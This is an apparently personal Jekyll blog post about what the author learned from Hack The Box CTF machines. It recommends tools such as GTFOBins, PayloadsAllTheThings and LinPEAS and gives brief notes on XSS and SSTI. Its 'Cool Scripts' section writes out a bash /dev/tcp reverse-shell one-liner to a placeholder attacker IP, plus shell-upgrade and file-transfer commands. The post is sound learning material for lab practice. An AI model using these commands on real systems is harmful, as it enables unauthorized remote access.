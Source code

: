 ```yaml
---
layout: post
title: What I've Learned from Hackthebox So Far
subtitle: Started it for a good time, and still going
# gh-repo: https://github.com/signalapp
# gh-badge: [star, fork, follow]
tags: [hackthebox, CTF, hack, hacking, informational]
comments: true
published: true
---
```


I recently reached the rank of hacker on hackthebox here is some of the cool things I learned along the way.

![encryption](/assets/img/hackthebox-logo.png){: .mx-auto.d-block :}

I have been doing hackthebox on the side for about a month now.
I wanted to share my thoughts and cool things I learned while breaking into boxes.
I’m currently sitting at the very start of Hacker rank with 6 userowns, 5 root owns, and 4 challenges.

![encryption](/assets/img/hackthebox-owns.jpg){: .mx-auto.d-block :}


I will be mostly writing about my experience with boxes rather than the challenges since they taught me the most and I had the most fun doing them.

Let’s dive in!
### Very Useful Githubs

#### GTFOBins

[GTFOBins](https://gtfobins.github.io/) is basically a super collection of Unix binaries mostly focused on breaking restricted shells. It has a long list of binaries made for exploiting common Unix tools to break out of restricted shells and escalate privilege. I was a bit hard for me to follow the instructions at first, but after using them for a few machines, I think i have a good idea of how to follow them now.

#### PayloadsAllTheThings

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) is a set of payloads for lots of Windows, macOS, Linux, and ChromeOs software and tool. Most of them come with kali version of Metasploit but using them without Metasploit taught me about how these things work. I do recommend trying this webpage before Metasploit if you are sure where exactly the vulnerability is.

#### PEAS(LinPeas)

After trying multiple enumeration tools I found the community favorite [PEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite), and what a find this was. LinPeas (PEAS for linux) by far gave the most information compared to all the other enumeration tool. It also has everything color coded based on how critical they are. I LOVE THIS THING.


### Cool Scripts

#### Spawn a Bash Shell from a Python Environment
stuck in a Python shell?
~~~
python3 -c 'import pty; pty.spawn("/bin/bash")'
~~~

#### Reverse Shell with One Line of Code
combine it with netcat and you are in for a good time.
~~~
bash -i >& /dev/tcp/<YOUR IP>/<THE PORT UR LISTENING ON> 0>&1 | sh
~~~

#### Host a Webpage with One Line of Code
Need to download a file to the victims machine or the other way around?
~~~
python3 -m http.server <PORT NUMBER>
~~~

### Useful Websites

#### Hash Identifier

During my journey, I came across multiple hashes that I didn’t know what they are. Which is a problem when it comes down to trying to decrypt them. I know you can always look at hashcat and john examples to try and find out what kind of hash you have. but using a website like [hashes.com](https://hashes.com/en/tools/hash_identifier) is much easier and faster.

#### HackerOne, Intigirity, Bugcrowd and Other Bug Bounty Websites

Very useful in case you need a thorough read on a vulnerability. Since bug hunters need to have a write for the company to receive their bounty, they usually have very thorough and in depth guide on how to recreate or exploit the bug they have found.

#### Application User Manual

Lots of times, you know exactly what application you need to exploit because of all the hints, but you have no idea what your foothold is. Try reading the application manual. It always lists a set of dependencies, privileges, default ports, etc. that can be later researched to find vulnerabilities in.

### Common Web Application Vulnerabilities

#### XSS

XSS is often ignored if the website isn’t and multiuser environment like social media. Since it's mostly used to steal data from other users, but you can still use XSS to grab admin passwords of a websites. The best bug hunters gained their fame from abusing XSS on Fortune 500 companies and gaining bank from it.

#### SSTI

SSTI or Server-Side Template Injection is a very common vulnerability among web applications like flask running on Python. There is a very quick way of testing if a website is vulnerable to it as its shown below. It so quick to do its almost always worth a try.

![encryption](/assets/img/SSTI.png){: .mx-auto.d-block :}

### Linux Tools I Did'nt Know Exist But I Ended Up Using A lot

#### NETCAT 
Other than its usual usage like port listening, this is also used heavily in getting a reverse shell.

#### netpgp
Got a encrypted file?


### Skills I Want To Improve On

  - XSS
  - Java Script Injection
  - Not relying on Metasploit
  - Using r2 for reading binaries
  - Being More Observant
  - Not pressing Ctrl + C in a reverse shell -_-


{: .box-error}
**Warning:** This post is meant to be educational and only used in ethical hacking. Please do not use any of the tools or commands mentioned here in a malicious way.
